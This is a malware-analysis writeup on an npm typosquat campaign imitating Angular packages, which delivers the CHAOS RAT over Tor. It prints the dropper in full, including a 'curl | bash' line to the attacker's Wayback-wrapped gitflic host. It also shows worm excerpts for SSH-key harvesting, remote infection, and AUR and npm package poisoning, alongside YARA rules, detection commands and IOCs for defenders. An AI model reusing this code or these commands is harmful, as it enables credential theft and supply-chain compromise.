


This campaign starts with a typo in `npm install`.

<div style="display:flex;flex-wrap:wrap;gap:16px;margin:0 0 2.2em;">
  <div style="flex:1 1 260px;min-width:0;padding:22px 24px;background:#11151E;border:1px solid #2C3546;border-radius:14px;">
    <div style="color:#7F8A9C;font-size:14px;margin-bottom:12px;">The real package</div>
    <div style="font-size:26px;font-weight:700;letter-spacing:-.01em;margin-bottom:18px;word-break:break-word;">@an<span style="color:#5CFF7A;">gu</span>lar/core</div>
    <div style="color:#C7D0C0;font-size:15px;line-height:1.85;">Scope owned by the Angular team<br>Version 22.2.1<br>Angular - the core framework</div>
  </div>
  <div style="flex:1 1 260px;min-width:0;padding:22px 24px;background:#11151E;border:1px solid #FF5D3A;border-radius:14px;">
    <div style="color:#7F8A9C;font-size:14px;margin-bottom:12px;">The typosquat</div>
    <div style="font-size:26px;font-weight:700;letter-spacing:-.01em;margin-bottom:18px;word-break:break-word;">@an<span style="color:#FF5D3A;">ug</span>lar/core</div>
    <div style="color:#C7D0C0;font-size:15px;line-height:1.85;">Scope anyone can register<br>Version 22.2.1<br>Angular - the core framework<br><strong style="color:#fff;">Postinstall hook downloads the dropper</strong></div>
  </div>
</div>

An npm account named `anfular` published 25-plus lookalikes of `@angular/core` and `@angular/cli`, every live one versioned `22.2.1` to match the real Angular release and carrying the real package descriptions.

Install one by accident and this happens:

1. A postinstall hook pulls a dropper through the Internet Archive.
2. The dropper pulls a bash worm.
3. The worm installs a Go remote access trojan that hides its command-and-control (C2) server behind Tor.
4. The worm then spreads through your SSH keys, your AUR packages, and any npm project on your disk.

This writeup is for people who hunt Linux endpoints, review package manifests, or write registry and proxy detections. It covers the full chain, the host artifacts worth alerting on, and two YARA rules.

## Typosquats in their own namespace

Typosquatting is registering a name one edit away from something popular and waiting for someone to mistype it. The `anfular` account covered the plausible misspellings: `@anuglar/core`, `@angulr/core`, `@anguar/core`, `@anfular/core`. Ten of them for core, ten for cli.

The two names differ by one swapped pair of letters, and the version and description a reviewer sees are identical.

The mechanic that makes this work on npm is scopes. In `@angular/core`, `angular` is a namespace owned by the Angular team, and only they can publish into it. `@anuglar/core` lives in a different namespace that anyone can register, and to the registry it's an unrelated package that happens to look nearly identical on screen.

The fakes reuse the genuine descriptions, "Angular - the core framework" and "CLI tool for Angular", so a rushed manifest review passes.

Version choice is the detail I'd aim detection at. Every live fake from this account was published at `22.2.1`, matching the genuine release at the time, so in a lockfile diff the entry looks like the real package unless you read the scope letter by letter.

The placeholders suggest more is planned. Five more namespaces hold core packages at `0.0.0-stage` with the description "Temporary package placeholder for staged publishing":

* `@ahgular`
* `@angilar`
* `@angullar`
* `@angulqr`
* `@anular`

They look like names reserved for later use, and that placeholder string works as a registry-wide hunt query.

The campaign is wider than this one account. OSV lists `@angulra/core` with the same dropper URL but a `preinstall` hook, version 1.0.67 and an unrelated description. On 29 September it also flagged typosquats of express, such as `exptrdd`, that pull a `hellscripter` script from Codeberg through the Wayback Machine in the same way.

## From postinstall to payload, by way of the Internet Archive

Each fake package's manifest declares a `postinstall` script, the lifecycle hook npm runs automatically once the tarball lands. This one curls a file the attacker calls `node.js` (SHA-256 `b4fdaf46a9817f828eb7bc29c9319953a9e06fba2bc2325c972bc25d4ed219d5`) from a `gitflic.ru` repository, wrapped in a `web.archive.org` URL (the Internet Archive's Wayback Machine), and pipes it into node.

Here is the whole file, all 503 bytes of it:

```js
const { exec } = require("child_process");
const { platform } = require('node:process');

if (process.platform === "linux") {
        exec("curl -L https://web.archive.org/web/https://gitflic.ru/project/hellscripter/install-scripts/blob/raw?file=linux.sh | bash", ()=>{});
} /*else if (process.platform === "win32") {
        exec("powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NonInteractive -Command iex ((New-Object System.Net.WebClient).DownloadString('https://example.com/windows.ps1'))", ()=>{});
}*/
```

That script does one thing: it curls `linux.sh` through the same archive trick and pipes it into bash. A commented-out PowerShell branch sits next to it with an `example.com` placeholder, so Windows support is planned but not in this build.

The worm's own source uses the same wrapped-URL pattern for all three artifacts it pulls:

```bash
__linux_script_url='https://web.archive.org/web/https://gitflic.ru/project/hellscripter/install-scripts/blob/raw?file=linux.sh'
__linux_binary_url='https://web.archive.org/web/https://gitflic.ru/project/hellscripter/install-scripts/blob/raw?file=systemd-fontd'
__node_script_url='https://web.archive.org/web/https://gitflic.ru/project/hellscripter/install-scripts/blob/raw?file=node.js'
```

So the chain is package, node, bash, payload. Here it is end to end:



Every request the victim machine makes goes to `web.archive.org`. That is deliberate. The attacker archived their own files so the download would get past network filters. To a proxy with a domain allowlist, this is traffic to a wayback archive of gitflic raw files.

## The payload is CHAOS RAT with a randomized config

The payload (SHA-256 `4ab643f49ee2a86c36ba665d7a3e5b91997d1da2840d64a0483d2b477c7ca7e0`) is a stripped Go ELF, the standard Linux executable format, built from `github.com/tiagorlampert/CHAOS`, an open-source RAT.

Its config is a base64 JSON blob holding the C2 address, port, and token. The key names are randomized per build, so a signature written on the config strings stops matching as soon as the operator rebuilds. This build points at a Tor v3 hidden service, `lpdt2hbzom3uxxq4dutlnypca3ym5c6h7g6fooi4qgz4m5qpcvrpczid.onion`, on port 80.

Decoded, with the token elided:

```json
{
  "UWi4wFtL9j": "80",
  "qG8ut5UyEA": "lpdt2hbzom3uxxq4dutlnypca3ym5c6h7g6fooi4qgz4m5qpcvrpczid.onion",
  "z3qujLWM7W": "<HS256 JWT, elided>"
}
```

The binary is stripped of its DWARF debug info, but Go can't strip the runtime's `.gopclntab` function table; parsing it recovers 7,850 function names and their call graph. That's enough to walk `main.main` and watch exactly how the config is loaded:

```asm
; main.main @ 0x6fb300
0x6fb30e: mov rax, qword ptr [rip + 0x43309b]   ; config slice .ptr
0x6fb315: mov rbx, qword ptr [rip + 0x43309c]   ; config slice .len
0x6fb31c: mov rcx, qword ptr [rip + 0x43309d]   ; config slice .cap
0x6fb323: call utils.ReadConfigFile             ; base64-decode + JSON unmarshal
0x6fb34d: call ui.ShowMenu                      ; menu title "CHAOS (%s)"
0x6fb36e: call environment.Load                 ; (ServerAddress, ServerPort, Mode)
```

The three `mov`s load a byte slice out of `.data` at `0xb2e3b0`; it points at the 356-byte config blob at `0xaee506`. `utils.ReadConfigFile` base64-decodes that blob and unmarshals it as JSON. In Go terms:

```go
cfg := utils.ReadConfigFile(configBlob) // .data slice @ 0xb2e3b0 -> 356 bytes @ 0xaee506
ui.ShowMenu("dev", ...)
env := environment.Load(cfg.ServerAddress, cfg.ServerPort, cfg.Mode)
app.New(env).Run()
```

Because the JSON keys are randomized per build, you can't tell a value's meaning from its key. I recovered the mapping (port, address, token) from the argument order into `environment.Load` instead, which is fixed by the struct layout and survives a rebuild. That is the whole reason to read the disassembly rather than the strings: the register and call order is stable where the config contents are not.

The command channel on the C2 side is plain HTTP and WebSocket, so a sensor that can see the decrypted stream has something to match:

```text
GET  http://<c2>/<endpoint>/   availability poll (handler.ServerIsAvailable)
POST http://<c2>/<endpoint>/   device specs: hostname, username, mac_address, local IP
WS   ws://<c2>/<endpoint>/    command channel, auto-reconnect
```

The implant never talks to that onion directly. It dials through a Tor SOCKS5 proxy at `127.0.0.1:9050` that the worm installs alongside it, so the host's clearnet traffic never touches the C2. If you're writing network detection for this, destination IOCs won't help. What's observable is a Tor process where nobody installed Tor, and the units that set the proxy up.

Persistence has a root and a non-root variant, both named like font services.

**Root:** the implant lands at `/usr/lib/systemd/systemd-fontrenderd`, with a unit at `/etc/systemd/system/systemd-fontrenderd.service` described as "Font Rendering Service". The deploy function enables Tor, drops the binary, sets it immutable, then does the same to the unit:

```bash
__deploy_fontrenderd() {
  systemctl enable --now tor.service
  curl -L "$__linux_binary_url" -o /usr/lib/systemd/systemd-fontrenderd
  chmod +x /usr/lib/systemd/systemd-fontrenderd
  chattr +i /usr/lib/systemd/systemd-fontrenderd
  # … writes the unit file, enables it, then:
  chattr +i /etc/systemd/system/systemd-fontrenderd.service
  chattr +i /etc/systemd/system/multi-user.target.wants/systemd-fontrenderd.service
}
```

The unit it writes injects the SOCKS5 proxy and tells systemd to leave the process alone:

```ini
# /etc/systemd/system/systemd-fontrenderd.service
[Unit]
Description=Font Rendering Service
Wants=tor.service
After=tor.service

[Service]
Environment="HTTP_PROXY=socks5://127.0.0.1:9050"
ExecStart=/usr/lib/systemd/systemd-fontrenderd
KillMode=none

[Install]
WantedBy=multi-user.target
```

The `chattr +i` on both the binary and the unit means an admin who spots them can't delete them without clearing the immutable flag first.

**Non-root:** a Tor expert bundle unpacks under `~/.config/systemd/systemd-fontrenderd/`, the implant goes to `~/.config/systemd/systemd-fontcached`, and matching user units enable both at login.

Capabilities are the standard CHAOS set: remote shell through `sh -c`, file upload, download, and delete, X11 screenshots, device fingerprinting, power control, and `xdg-open` for URLs.

## The worm spreads over SSH, the AUR and npm

The bash worm, `linux.sh` (SHA-256 `b1a1429d4af8af4384d546b4544ddf5db4bcbb48bec0c58aadd1b5973f42617b`), handles propagation. The RAT compromises one machine, and this script is what carries it to others.

First, credentials. It harvests every SSH private key under `/home/*`, `/root`, and `/mnt/c/Users/*`, so WSL (Windows Subsystem for Linux) setups are included:

```bash
for __key in $(file {/home/*,/root,/mnt/c/Users/*}/.ssh/** | grep -F "OpenSSH private key" | cut -d":" -f1)
```

It merges every `known_hosts` on the box, tries each key against each host through every ssh config it finds, and on success runs the same `curl | bash` there:

```bash
for __host in $(cut -d' ' -f1 "$__known_hosts" | sort -u); do
  for __config in /home/*/.ssh/config /etc/ssh/ssh_config /mnt/c/Users/*/.ssh/config /root/.ssh/config; do
    __infect_host -F "$__config" -i "$1" "ssh://$__host" &
  done
  __infect_host -l root -i "$1" "ssh://$__host" &
done

__infect_host() {
  # … connect, check uname …
  __ssh $@ "nohup curl -L '$__linux_script_url' | nohup bash >/dev/null 2>&1"
}
```

One developer machine with a shared key can spread it across an internal network.

Then it attacks the two supply chains the victim participates in.

On the AUR (Arch User Repository), for each package the victim maintains it appends a hook to the `.install` file, bumps `pkgrel`, and pushes an `upgpkg:` commit under the maintainer's own git identity:

```bash
__do_aur_update() {
  # … clone ssh://aur@aur.archlinux.org/$1.git, source PKGBUILD …
  ((pkgrel++))
  printf '\n%s\n' "bash <(curl -L '$__linux_script_url')" >> "$install"
  sed -E -i "s/pkgrel = [0-9]+/pkgrel = $pkgrel/" .SRCINFO
  git config user.email "$(git log -1 --pretty=format:'%ae')"
  git config user.name  "$(git log -1 --pretty=format:'%an')"
  git commit -m "upgpkg: $__fullpkgver" -a --no-gpg-sign
  # … git push with random-backoff retries …
}
```

To anyone reading AUR history, it looks like routine maintenance.

On npm, for every `package.json` on disk outside `node_modules`, it chains its own curl onto the existing postinstall, bumps the patch version, and publishes with every `.npmrc` it can find:

```bash
__do_npm_update() {
  local __postinstall="$(npm pkg get scripts.postinstall)"
  [ -n "$__postinstall" ] && local __postinstall+=' & '
  local __postinstall+="curl -L $__node_script_url | node"
  npm pkg set scripts.postinstall="$__postinstall"
  npm --no-git-tag-version version patch
  for NPM_CONFIG_USERCONFIG in {/home/*,.,/mnt/c/Users/*,/root}/.npmrc "$PREFIX/etc/npmrc"; do
    export NPM_CONFIG_USERCONFIG; npm publish &
  done
  wait
  mv -f "$__package_json_orig" package.json   # put the original back
}
```

The last line hides the change. After publishing, it restores the original `package.json`. The working tree looks unchanged while the registry serves the trojanized version, and the only trace is a patch-version bump.



All three branches end on a new host with the same artifacts: the fontrenderd and fontcached units, the local Tor proxy, the immutable flags. Every infection leaves the same files however it arrived, so detection should target those.

In MITRE ATT&CK terms, this maps to:

* T1195.002 for the supply-chain branches
* T1552.004 for the key harvest
* T1021.004 for the SSH spread
* T1543.002 for the systemd persistence
* T1090.003 for the Tor routing

## Detect what survives a rebuild

The build-specific indicators (the onion address, the JWT, the config key names, the base64 blob) change with every rebuild, so they make poor detections.

On a host, four commands cover most of it:

```bash
systemctl list-unit-files | grep -Ei 'font(render|cach)'
```

Finds the fake units whether they're enabled or not.

```bash
lsattr /etc/systemd/system/systemd-fontrenderd.service /usr/lib/systemd/systemd-fontrenderd 2>/dev/null
```

An `i` in the attribute column is the `chattr +i` persistence.

```bash
pgrep -a tor; ss -ltnp | grep ':9050'
```

A Tor process and a listener on the SOCKS port, on a host that shouldn't have either.

```bash
grep -rlE 'curl.*(gitflic|web\.archive)' --include=package.json --include='*.install' --exclude-dir=node_modules . 2>/dev/null
```

postinstall and post_install poisoning in anything you or your team maintain.

For scanning samples, these are the two rules I run, both validated against the campaign artifacts:

```yara
rule CHAOS_RAT_Linux_Client {
    meta:
        family      = "CHAOS RAT (Go client)"
        author      = "MindPatch"
        date        = "2026-10-05"
        reference   = "github.com/tiagorlampert/CHAOS client (devel), Go 1.27.1 linux/amd64"
        note        = "matches unmodified builds regardless of baked C2 config"

    strings:
        $pkg1 = "github.com/tiagorlampert/CHAOS/client/app/services/" ascii
        $pkg2 = "github.com/tiagorlampert/CHAOS/client/app/environment" ascii
        $pkg3 = "github.com/tiagorlampert/CHAOS/client/app/handler" ascii
        $pkg4 = "github.com/tiagorlampert/CHAOS/client/app/infrastructure/websocket" ascii
        $menu = "CHAOS (%s)" ascii
        $url  = "http://%s:%s/" ascii
        $err1 = "[!] Error connecting with server: " ascii
        $err2 = "[!] Error reading from connection: " ascii
        $ok   = "[*] Successfully connected" ascii
        $gol  = "Go buildinf:" ascii
        $sh   = "xdg-open %s" ascii

    condition:
        uint32(0) == 0x464c457f and filesize > 1MB
        and $gol
        and 3 of ($pkg*)
        and 2 of ($menu, $url, $err1, $err2, $ok, $sh)
}
```

In the condition, `uint32(0) == 0x464c457f` is the ELF magic in the first four bytes, the size gate keeps the 7KB droppers from matching, and `3 of ($pkg*)` tolerates a rebuild that drops one package path.

The second rule matches the worm, and it's the one I'd point at npm tarballs and AUR checkouts:

```yara
rule CHAOS_Dropper_Linux_Worm {
    meta:
        family      = "CHAOS RAT dropper - fontrenderd worm (bash)"
        author      = "MindPatch"
        note        = "AUR/npm supply-chain + SSH worm + Tor persistence"

    strings:
        $svc1  = "systemd-fontrenderd" ascii
        $svc2  = "systemd-fontcached" ascii
        $desc1 = "Description=Font Rendering Service" ascii
        $desc2 = "Description=Font Caching Service" ascii
        $tor   = "socks5://127.0.0.1:9050" ascii
        $torpk = "tor-expert-bundle-linux-i686" ascii
        $fn1   = "__do_aur_update" ascii
        $fn2   = "__do_npm_update" ascii
        $fn3   = "__deploy_fontrenderd" ascii
        $fn4   = "__use_ssh_key" ascii
        $aur   = "aur@aur.archlinux.org" ascii
        $upg   = "upgpkg: " ascii
        $repo  = "gitflic.ru/project/hellscripter/install-scripts" ascii
        $wayb  = "https://web.archive.org/web/https://" ascii
        $chattr= "chattr +i" ascii

    condition:
        filesize < 200KB
        and 2 of ($svc1, $svc2, $desc1, $desc2)
        and 2 of ($fn1, $fn2, $fn3, $fn4)
        and 2 of ($repo, $aur, $torpk, $tor, $wayb, $upg, $chattr)
}
```

The three "2 of" clauses mean a partial rework of the script still matches, as long as the service names, the worm's own function names, and the infrastructure strings survive.

If you find it, respond in this order:

1. Capture `~/.config/systemd/systemd-fontrenderd/` and both unit files as evidence.
2. Run `chattr -i` on the binaries and units, then remove them.
3. Run `systemctl daemon-reload` and `systemctl --user daemon-reload`.
4. Rotate every SSH key that was on the host, because you assume all of them were read.
5. Check every host in the merged `known_hosts` for the same artifacts.

AUR maintainers should review everything pushed since early October. npm publishers should revoke tokens and diff the registry's copy of each package against the local one, because the worm restored the local copy on purpose.

## Indicators

These are from my run. The hashes and the onion address are specific to this build, so use them for triage and not for long-term detection.

```text
implant  4ab643f49ee2a86c36ba665d7a3e5b91997d1da2840d64a0483d2b477c7ca7e0
worm     b1a1429d4af8af4384d546b4544ddf5db4bcbb48bec0c58aadd1b5973f42617b
node.js  b4fdaf46a9817f828eb7bc29c9319953a9e06fba2bc2325c972bc25d4ed219d5
C2       lpdt2hbzom3uxxq4dutlnypca3ym5c6h7g6fooi4qgz4m5qpcvrpczid.onion:80 (Tor)
proxy    socks5://127.0.0.1:9050
units    systemd-fontrenderd, systemd-fontcached
```

### Package names

Fake `@angular/core`, version `22.2.1`, description "Angular - the core framework":

```text
@anuglar/core
@anngular/core
@angupar/core
@angulr/core
@angulaar/core
@anguar/core
@angjlar/core
@anfular/core
@abgular/core
@qngular/core
```

Fake `@angular/cli`, version `22.2.1`, description "CLI tool for Angular":

```text
@abgular/cli
@ahgular/cli
@angilar/cli
@angjlar/cli
@anguar/cli
@angulaar/cli
@angullar/cli
@angulqr/cli
@angulr/cli
@angupar/cli
```

Placeholder core packages, version `0.0.0-stage`, description "Temporary package placeholder for staged publishing":

```text
@ahgular/core
@angilar/core
@angullar/core
@angulqr/core
@anular/core
```
